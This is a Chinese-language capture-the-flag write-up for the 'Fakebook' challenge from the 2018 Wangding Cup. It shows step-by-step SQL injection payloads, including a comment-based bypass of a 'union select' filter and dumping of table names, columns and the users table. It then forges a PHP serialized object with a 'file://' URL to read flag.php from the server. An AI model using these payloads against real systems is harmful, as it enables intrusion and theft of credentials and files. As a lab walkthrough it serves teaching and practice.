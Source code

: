 # [网鼎杯 2018]Fakebook 1

- 进入网页，注册账号并登录，url栏出现GET传参，可能存在sql注入点

> <img src="../../IMG3/Screenshot 2024-06-11 190155.png">

- 经测试，存在数值型注入，字段数为4

`?no=1 order by 4#`

> <img src="../../IMG3/Screenshot 2024-06-11 190310.png">

- 在判断回显点时提示 `no hack ~_~`

`?no=0 union select 1,2,3,4#`

> <img src="../../IMG3/Screenshot 2024-06-11 190407.png">

- 经测试，题目将 `union select` 进行了过滤，过滤的方法是检查union后第二个字符是否为 `s` ，因此不能使用括号绕过，使用 `union/**/select` 绕过

`?no=0 union/**/select 1,2,3,4#`

> <img src="../../IMG3/Screenshot 2024-06-11 190740.png">

- 确认回显点为2，爆表

`?no=0 union/**/select 1,group_concat(table_name),3,4 from information_schema.tables where table_schema=database()#`

> <img src="../../IMG3/Screenshot 2024-06-11 191135.png">

- 爆字段

`?no=0 union/**/select 1,group_concat(column_name),3,4 from information_schema.columns where table_schema=database() and table_name='users'#`

> <img src="../../IMG3/Screenshot 2024-06-11 191344.png">

- 爆内容

`?no=0 union/**/select 1,group_concat(no,'~',username,'~',passwd,'~',data),3,4 from users where no=1#`

> <img src="../../IMG3/Screenshot 2024-06-11 192335.png">

- 可以看到一串序列化字符串 `O:8:"UserInfo":3:{s:4:"name";s:1:"a";s:3:"age";i:0;s:4:"blog";s:5:"a.com";}` ，字符串的内容刚好是我们新建的账户a中的内容。题目到这里似乎陷入了僵局。

- 经过各种尝试，我们发现了 `flag.php` ，和 `view.php` 在同一目录下，刚才sql注入时暴露了 `view.php` 的绝对路径，也就是说可能存在某个注入，让我们可以访问 `flag.php` 中的内容，查看网页源码，在blog一行发现了可疑之处

> <img src="../../IMG3/Screenshot 2024-06-11 202114.png">

- 这里我把blog设置为了 `http://www.baidu.com` ，对内容解码后得到的即是百度首页的源码，因此可知后台会对blog一行内容发送请求，并返回响应给前端，我们可以利用此处对 `flag.php` 发送请求。回想到在sql注入时，blog的内容刚好是序列化字符串，我们使用 `file://` 伪协议，构造攻击字符串

`O:8:"UserInfo":3:{s:4:"name";s:1:"a";s:3:"age";i:0;s:4:"blog";s:29:"file:///var/www/html/flag.php";}`

- 得到payload如下，网页获取到 `1` ，对 `1` 进行查询得到 `2,3,4` ， `2,3` 直接返回到前端，而 `4` 是在创建用户时生成的序列化字符串，后台在对 `4` 进行反序列化后返回到前端。这里我们便是用我们自己的查询语句覆盖后台的查询语句，来达到访问 `flag.php` 的目的

`?no=0 union/**/select 1,2,3,'O:8:"UserInfo":3:{s:4:"name";s:1:"a";s:3:"age";i:0;s:4:"blog";s:29:"file:///var/www/html/flag.php";}'#`

> <img src="../../IMG3/Screenshot 2024-06-11 202836.png">

- 可以看到blog一行已经修改成功，查看源代码，访问 `data:text/html;base64,PD9waHANCg0KJGZsYWcgPSAiZmxhZ3tiNjhmZWZiMS0wM2QzLTQ4YTItODBlNi02ODI3Mzg3YzY0NTF9IjsNCmV4aXQoMCk7DQo=` 得到flag

> <img src="../../IMG3/Screenshot 2024-06-11 203201.png">